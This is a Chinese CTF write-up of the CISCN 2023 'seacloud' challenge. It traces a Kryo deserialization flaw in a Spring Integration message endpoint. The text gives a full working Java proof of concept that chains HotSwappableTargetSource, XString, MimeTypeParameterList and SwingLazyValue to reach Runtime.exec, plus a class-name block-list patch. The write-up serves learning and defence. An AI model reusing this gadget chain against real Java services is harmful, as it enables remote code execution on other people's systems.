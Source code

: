 # CISCN 2023 西南赛区半决赛 seacloud

题目附件👉[下载](../backup/seacloud.zip)

好像是当时场上攻击0解题，但挺多人得到了防御分

这两天又做了一遍，发现这题考察的知识点还挺多的

（第一次参加线下赛没能上网真的难绷😭，被队里另一个web✌和pwn✌带飞了）

前置知识（题目就给了这两个提示）：

* [Hessian原生JDK利用](../Deserial/hessian_only_jdk.md)
* [Kryo反序列化](../Deserial/Kryo.md)

## Analysis

只有一个控制器`MessageController`，对传入的message进行base64解码

![image-20230622132240291](../.gitbook/assets/image-20230622132240291.png)

这个`org.springframework.integration.codec.CodecMessageConverter`是什么？

根据官方文档的说法

> A MessageConverter that delegates to a Codec to convert.

这里实例化`CodecMessageConverter`就传入了`org.springframework.integration.codec.kryo.MessageCodec`

`Codec`又是什么呢

> Interface for classes that perform both encode (serialize) and decode (deserialize) on multiple classes.

大概就是跟序列化和反序列化有关的，而且这个又是kryo包下，题目也提示了Kryo反序列化

跟进`CodecMessageConverter#toMessage`

![image-20230622150130904](../.gitbook/assets/image-20230622150130904.png)

这里指定了解码的类型`this.messageClass`（`GenericMessage`），最后`MessageCodec#decode`也返回了一个`Message`对象，所以后面构造的时候要用`GenericMessage`将payload封装起来

```java
public class GenericMessage<T> implements Message<T>, Serializable {
	// Create a new message with the given payload.
	public GenericMessage(T payload) {
		this(payload, new MessageHeaders(null));
	}
    @Override
	public T getPayload() {
		return this.payload;
	}
}
```

又注意到控制器最后调用`message.getPayload`返回了`User`对象。下面代码可证实

```java
User user = new User();
user.setName("seaclouds");
user.setAge("10");
GenericMessage message = new GenericMessage(user); // 实例化GenericMessage传入payload
MessageCodec messageCodec = new MessageCodec();
byte[] bytes = messageCodec.encode(message);

CodecMessageConverter codecMessageConverter = new CodecMessageConverter(new MessageCodec());
Message<?> messagecode = codecMessageConverter.toMessage(bytes, (MessageHeaders) null);
System.out.println(messagecode.getPayload());
// 输出User{name='seaclouds', age='10'}
```

回到`toMessage`，继续跟进`decode`

![image-20230622151117090](../.gitbook/assets/image-20230622151117090.png)

将字节数组封装到Kryo自定义的输入流`com.esotericsoftware.kryo.io.Input`

一路跟进就到了熟悉的`Kryo#readObject`

调用栈👇

```
readClassAndObject:801, Kryo (com.esotericsoftware.kryo)
read:153, MapSerializer (com.esotericsoftware.kryo.serializers)
read:39, MapSerializer (com.esotericsoftware.kryo.serializers)
readObject:709, Kryo (com.esotericsoftware.kryo)
read:49, MessageHeadersSerializer (org.springframework.integration.codec.kryo)
read:34, MessageHeadersSerializer (org.springframework.integration.codec.kryo)
readObject:731, Kryo (com.esotericsoftware.kryo)
read:125, ObjectField (com.esotericsoftware.kryo.serializers)
read:543, FieldSerializer (com.esotericsoftware.kryo.serializers)
readObject:709, Kryo (com.esotericsoftware.kryo)
doDecode:97, PojoCodec (org.springframework.integration.codec.kryo)
lambda$decode$2:86, AbstractKryoCodec (org.springframework.integration.codec.kryo)
execute:-1, 1625066712 (org.springframework.integration.codec.kryo.AbstractKryoCodec$$Lambda$500)
run:58, KryoPoolQueueImpl (com.esotericsoftware.kryo.pool)
decode:86, AbstractKryoCodec (org.springframework.integration.codec.kryo)
decode:72, AbstractKryoCodec (org.springframework.integration.codec.kryo)
toMessage:62, CodecMessageConverter (org.springframework.integration.codec)
```

网上Kryo相关的攻击都是在Dubbo下利用的

```
com.esotericsoftware.kryo#readClassAndObject ->
	com.esotericsoftware.kryo.serializers#read ->
		java.util.HashMap#put ->
			org.springframework.aop.target.HotSwappableTargetSource#equals ->
				com.sun.org.apache.xpath.internal.objects.XString ->
					com.alibaba.fastjson.JSON#toString -> fastjson gadget 
							-> TemplatesImpl to load evil class
```

fastjson是Dubbo自带的，本题没有这个依赖

也就是要找后半段链子来接上`toString`

根据题目提示用Hessian原生JDK去打（Hessian在那条链只充当`source`触发toString）

```
javax.activation.MimeTypeParameterList#toString
	UIDefaults#get
		UIDefaults#getFromHashTable
			UIDefaults$LazyValue#createValue
				SwingLazyValue#createValue
					sun.reflect.misc.MethodUtil#invoke
```

缝一下就能打了

## Patch and POC

如何修复呢？

最粗暴的方式就是把几个关键类禁了，但由于这里是byte数组转字符串，可能存在一些类名卡一半

![image-20230622155158515](../.gitbook/assets/image-20230622155158515.png)

```java
String test = new String(decodemsg);
if(test.contains("com.esotericsoftware.kryo") || test.contains("org.springframework") || test.contains("javax.activation.MimeTypeParameter")){
    return "illegal deserialization";
}
```

这个方法是比赛的时候想到的，但我不会用Maven指定本地jar包位置。。。打包不了patch

要能上网一下子的事情🤬🤮，下次比赛记得弄个本地Maven镜像

也可以上RASP通防，不过我太菜了不会用🤧

完整POC：

```java
import com.sun.org.apache.xpath.internal.objects.XString;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.integration.codec.CodecMessageConverter;
import org.springframework.integration.codec.kryo.MessageCodec;
import org.springframework.messaging.Message;
import org.springframework.messaging.MessageHeaders;
import org.springframework.messaging.support.GenericMessage;
import sun.swing.SwingLazyValue;

import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);
        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});
        uiDefaults.put("p4d0rn", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();
        setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);

        XString x = new XString("test");
        HashMap<Object, Object> hashMap = new HashMap<>();
        Object v1 = new HotSwappableTargetSource(mimeTypeParameterList);
        Object v2 = new HotSwappableTargetSource(x);

        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(hashMap, "table", tbl);

        GenericMessage message = new GenericMessage(hashMap);
        MessageCodec messageCodec = new MessageCodec();
        byte[] bytes = messageCodec.encode(message);
        //System.out.println(new String(Base64.getEncoder().encode(bytes)));

        CodecMessageConverter codecMessageConverter = new CodecMessageConverter(new MessageCodec());
        Message<?> messagecode = codecMessageConverter.toMessage(bytes, (MessageHeaders) null);
        messagecode.getPayload();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```